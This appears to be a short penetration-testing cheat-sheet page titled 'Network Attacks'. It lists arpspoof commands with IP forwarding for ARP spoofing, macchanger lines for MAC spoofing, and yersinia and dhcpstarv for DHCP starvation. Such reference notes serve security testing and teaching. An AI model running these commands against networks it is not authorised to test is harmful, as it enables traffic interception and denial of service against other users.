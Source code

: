 ```yaml
---
layout: default
title: Network Attacks
parent: Exploitation
nav_order: 1
---
```


# Network Attacks
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

### ARP Spoofing
`echo 1 > /proc/sys/net/ipv4/ip_forward` - enables IP forwarding   
`arpspoof -i <int> -t <target ip addr> -r <host to spoof i.e. gw>`  
`arpspoof -i <int> -r <host to spoof i.e. gw> -t <target ip addr>`  

### MAC Spoofing
`macchanger --show <int>` - shows current MACs set  
`macchanger -r <int>` - sets a random MAC on <int>  
 
### DHCP Starvation
`yersinia -G` - Starts Yersinia´s (Layer 2 attack framework) gui  
`dhcpstarv -i <int>` 
